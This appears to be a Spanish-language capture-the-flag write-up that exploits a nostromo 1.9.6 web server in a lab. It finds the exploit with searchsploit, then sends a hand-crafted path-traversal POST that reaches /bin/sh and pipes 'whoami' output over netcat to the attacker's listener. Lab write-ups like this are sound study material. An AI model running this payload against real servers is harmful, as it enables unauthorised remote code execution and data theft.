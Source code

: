 ## Vulnerability Assessment {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **nostromo 1.9.6**

```bash
searchsploit nostromo 
```

Hay un script en Python que permitiria hacer execucion de commandos. Nos traemos el script en el repertorio de trabajo.

```bash
searchsploit -m 47837
mv 47837.py nostromo_exploit.py
```

Analizando el script con `cat`, vemos como se uza el exploit. Intentamos reproduzir los passos antes de crearnos nuestro
proprio script.

1. En una terminal

    ```bash
    nc -nlvp 443
    ```

1. En otra terminal

    ```bash
    telnet 10.10.10.165 80
    POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
    Content-Length: 1

    whoami | nc 10.10.14.20 443
    ```

Se ve `www-data` en la primera terminal.

Ya podemos crearnos el script.

